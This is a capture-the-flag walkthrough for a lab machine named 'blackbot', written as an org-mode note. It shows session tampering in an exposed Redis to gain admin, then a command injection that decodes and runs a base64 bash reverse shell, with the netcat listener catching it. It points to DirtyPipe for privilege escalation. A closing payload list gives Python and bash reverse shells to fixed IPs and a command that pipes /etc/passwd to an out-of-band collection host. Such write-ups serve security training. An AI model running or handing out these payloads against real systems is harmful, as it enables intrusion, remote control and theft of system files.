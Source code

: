 #+title: Bot Busters
#+AUTHOR: gabriel

* Intro
Get ready for an exciting mission! You need to join an operation to complete a critical mission to detect a botnet group lurking in the dark corners of the cyber world.

Recent cyber intelligence reports indicate that a group behind several DDoS attacks in the past is planning to launch several DDoS attacks in the near future. Many companies, institutions and organizations are known to be targeted. As a result of the analysis and research, a server used by the attackers was identified. It is thought that a botnet network is used through this server. We will reach the exact result after your research.

You will start your mission to uncover these attackers who have caused many services to collapse and chaos to reign. In order to stop the cyber attackers behind these botnet attacks, you will first need to take over their botnet site and server. This will stop the attacks and identify who their targets are.

This exciting mission will require the highest level of strategy and speed to use your technical knowledge to stop the cyber attack. Your courage, intelligence and skills will be the keys to combating the insidious threats of the cyber world.

* open ports
- 22
- 80
- 6379

    *GEt and modify the cookie value at REdis* ->
  #+begin_src sh
[10:09][]~ ✮ redis-cli -h blackbot.hv
blackbot.hv:6379> keys *
1) "df7e0133-17b0-4430-a1ef-3c0edcc2d85a"
blackbot.hv:6379> get df7e0133-17b0-4430-a1ef-3c0edcc2d85a
"{\"userID\":\"fa6d90c4-feb0-4a9c-af59-05aa6d014476\",\"username\":\"jon\",\"isA
dmin\":false,\"isPremium\":false}"
blackbot.hv:6379> set ded8d036-0285-4930-a69d-e083e13761da "{\"userID\":\"4204da
10-e68e-4020-8f68-c96d253bca71\",\"username\":\"jon\",\"isAdmin\":true,\"isPremi
um\":true}"
OK
blackbot.hv:6379>
  #+end_src

*SEt new value at redis* ->
: set ded8d036-0285-4930-a69d-e083e13761da "{\"userID\":\"4204da10-e68e-4020-8f68-c96d253bca71\",\"username\":\"jon\",\"isAdmin\":true,\"isPremium\":true}"

*simple bash payload enconded base64* ->
: IGJhc2ggLWkgPiYgL2Rldi90Y3AvMTcyLjIwLjE5LjUwLzc3NzcgMD4mMQo=

*Request to get reverse shell with this bash base64 payload* ->
: 127.0.0.1&echo${IFS}"IGJhc2ggLWkgPiYgL2Rldi90Y3AvMTcyLjIwLjE5LjUwLzc3NzcgMD4mMQo="|base64${IFS}-d|bash

*Th*
#+begin_src sh
┌─[✗]─[root@hackerbox]─[~]
└──╼ #nc -nlvp 7777
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
Ncat: Connection from 172.20.19.113.
Ncat: Connection from 172.20.19.113:48404.
bash: cannot set terminal process group (691): Inappropriate ioctl for device
bash: no job control in this shell
blackbot@comet:~/blackbot/cmd$
#+end_src


** priv escalation

This machine is vulnerable to CVE-2022-0847 -> DirtyPipe
https://github.com/Al1ex/CVE-2022-0847?tab=readme-ov-file


** payloads

*python3*
: import sys,socket,os,pty;s=socket.socket();s.connect(("10.8.58.60",6969));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")

*bash*
: bash -i >& /dev/tcp/10.8.58.60/7777 0>&1



: cat /etc/passwd | base64 | curl -d @- facobjhzpdpvejleegrunnnhooul91vxo.oast.fun
